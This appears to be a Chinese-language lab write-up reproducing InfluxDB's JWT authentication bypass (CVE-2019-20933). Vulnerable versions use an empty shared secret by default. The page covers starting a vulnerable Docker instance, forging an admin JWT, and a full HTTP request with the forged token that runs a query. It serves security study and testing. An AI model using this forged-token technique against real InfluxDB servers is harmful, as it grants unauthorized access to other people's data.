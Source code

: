 # InfluxDB JWT 认证绕过漏洞（CVE-2019-20933）

InfluxDB是一款著名的时序数据库，其使用jwt作为鉴权方式。

在其1.7.6版本以前，默认设置jwt的认证密钥`shared-secret`为空字符串，导致攻击者可以伪造任意用户身份在InfluxDB中执行SQL语句。

参考链接：

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://github.com/influxdata/influxdb/issues/12927
- https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## 漏洞环境

执行如下命令启动InfluxDB 1.6.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8086/debug/vars`即可查看一些服务信息，但此时执行SQL语句则会出现401错误：

![](1.png)

## 漏洞复现

我们借助<https://jwt.io/>来生成jwt token：

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 1676346267
}
```

其中，`admin`是一个已经存在的用户，`exp`是一个时间戳，代表着这个token的过期时间，你需要设置为一个未来的时间戳。

最终生成的token：

![](2.png)

发送带有这个jwt token的数据包，可见SQL语句执行成功：

```
POST /query HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyOTg2MzQ2MjY3fQ.LJDvEy5zvSEpA_C6pnK3JJFkUKGq9eEi8T2wdum3R_s
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

db=sample&q=show+users
```

![](3.png)
